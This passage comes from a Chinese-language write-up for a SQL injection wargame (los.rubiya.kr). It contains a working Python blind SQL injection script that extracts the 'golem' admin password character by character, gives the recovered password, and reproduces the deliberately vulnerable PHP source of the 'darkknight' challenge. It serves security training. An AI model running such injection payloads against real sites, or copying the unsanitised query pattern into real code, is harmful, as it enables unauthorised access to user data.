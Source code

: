 ```python
import requests

url = 'https://los.rubiya.kr/chall/golem_4b5202cfedd8160e73124b5234235ef5.php'
headers = {'Host': 'los.rubiya.kr',
'Connection': 'close',
'Pagma': 'no-cache',
'Cache-Control': 'no-cache',
'sec-ch-ua-platform': "Windows",
'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.0.0 Safari/537.36'}
cookies={'PHPSESSID':'nc4ldg9qv2m60ddunromird6dk'}
# 确定密码长度
for length in range(4,20):
    params = {'pw':f"'|| length(pw) like {length}-- "}
    response = requests.get(url, cookies=cookies, params=params)
    if(response.text.find("Hello admin")!=-1):
        print(f"length: {length}")
        break
#依次确定每个字符
pw = ""
for n in range (1,length+1):
    for code in range(48,123):
        params = {'pw':f"'|| ascii(SUBSTRING(pw,{n},1)) like {code}-- "}
        response = requests.get(url, cookies=cookies, params=params)
        print(params)
        if(response.text.find("Hello admin")!=-1):
            pw+=chr(code)
            print(f"pw: {pw}")
            break
```

密码是：`77d6290b`

#### 第十二题 DARKNIGHT

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_darkknight where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_darkknight where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("darkknight"); 
  highlight_file(__FILE__); 
?>
```
